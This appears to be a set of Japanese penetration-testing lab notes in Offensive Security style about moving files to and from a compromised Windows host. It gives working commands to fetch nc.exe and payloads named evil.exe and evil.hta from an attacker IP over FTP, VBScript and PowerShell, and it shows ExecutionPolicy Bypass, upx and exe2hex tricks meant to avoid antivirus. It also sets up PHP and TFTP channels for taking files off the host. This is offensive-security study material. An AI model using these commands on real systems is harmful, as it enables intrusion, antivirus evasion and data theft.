


# FileTransfer

### windowsにftpでファイル転送

* kaliにFTPサーバーを立てる

  ```
  sudo apt update && sudo apt install pure-ftpd
  ```

  * 以下スクリプトでユーザ登録

    ```bash
    kali@kali:~$ cat ./setup-ftp.sh
    #!/bin/bash
    
    sudo groupadd ftpgroup
    sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    sudo pure-pw useradd offsec -u ftpuser -d /ftphome
    sudo pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    sudo ln -s ../conf/PureDB 60pdb
    sudo mkdir -p /ftphome
    sudo chown -R ftpuser:ftpgroup /ftphome/
    sudo systemctl restart pure-ftpd
    ```

  ```bash
  sudo systemctl status pure-ftpd
  sudo systemctl start pure-ftpd
  ```

* 転送するファイルを/ftphome配下に転送する

  ```
  sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
  ls /ftphome/ 
  ```

* windowsで取得する

  ```cmd
  C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
  C:\Users\offsec>echo USER offsec>> ftp.txt
  C:\Users\offsec>echo lab>> ftp.txt
  C:\Users\offsec>echo bin >> ftp.txt
  C:\Users\offsec>echo GET nc.exe >> ftp.txt
  C:\Users\offsec>echo bye >> ftp.txt
  
  C:\Users\offsec> ftp -v -n -s:ftp.txt
  ```

  ```
  echo open 10.11.0.4 21> ftp.txt
  echo USER offsec>> ftp.txt
  echo lab>> ftp.txt
  echo bin >> ftp.txt
  echo GET try-harder.mp3 >> ftp.txt
  echo bye >> ftp.txt
  ```
  
  

### VBScriptを利用したファイル転送

以下簡易wgetを作成する

```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

cscriptを実行する

```
cscript wget.vbs http://192.168.119.144/evil.exe evil.exe
```


### powershell

psファイルを作成する

```cmd
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.119.144/evil.hta" >>wget.ps1
echo $file = "evil.hta" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

実行する

```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

* -ExecutionPolicy Bypass：PowerShellスクリプトの実行を許可 (デフォルトでは制限)。
* -NoLogo -NonInteractive：PowerShell のロゴバナーを非表示にし、PowerShell の対話型プロンプトを抑制する
* NoProfileキーワード：PowerShellがデフォルトのプロファイルをロードしないようにし（これは必要ない）


ワンライナーバージョン

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.144:5555/index.html', 'new-exploit.exe')
```


##### ダウンロードせずに実行する場合は・・・

AVに検知されるので画像




### nc.exeの配送

nc.exeをコピー

```
locate nc.exe | grep binaries
cp /usr/share/windows-resources/binaries/nc.exe .
ls -lh nc.exe
```

パッカーで圧縮

```
upx -9 nc.exe
ls -lh nc.exe
```

exe2hexでWindowsスクリプトに変換

```
exe2hex -x nc.exe -p nc.cmd
```

nc.cmdをcatし全コピーし、攻撃対象ホストに貼り付け（windows)

ncコマンドを確認する

```
nc -h
```




### ファイル出力（php+ps)　

Windows7およびWindows Server 2008 R2以降で動作

* kaliでapache2を起動しupload.phpを作成する

  ```
  <?php
  $uploaddir = '/var/www/uploads/';
  
  $uploadfile = $uploaddir . $_FILES['file']['name'];
  
  move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
  ?>
  ```

  ```
  sudo vi /var/www/html/upload.php   
  ```

* uploadsディレクトリを作成する

  ```
  sudo mkdir /var/www/uploads
  ps -ef | grep apache
  sudo chown www-data: /var/www/uploads
  ls -la /var/www/
  ```

* 攻撃対象ホストでpowershell実行する

  AVに検知されるので画像で

  


### ファイル出力（TFTP)

* kaliでTFTPサーバーを立ち上げる

  ```
  sudo apt update && sudo apt install atftp
  sudo mkdir /tftp
  sudo chown nobody: /tftp
  sudo atftpd --daemon --port 69 /tftp
  ```

* tftpで出力する

  ```
  tftp -i 10.11.0.4 put important.docx
  ```

  

### ファイル出力（nc)

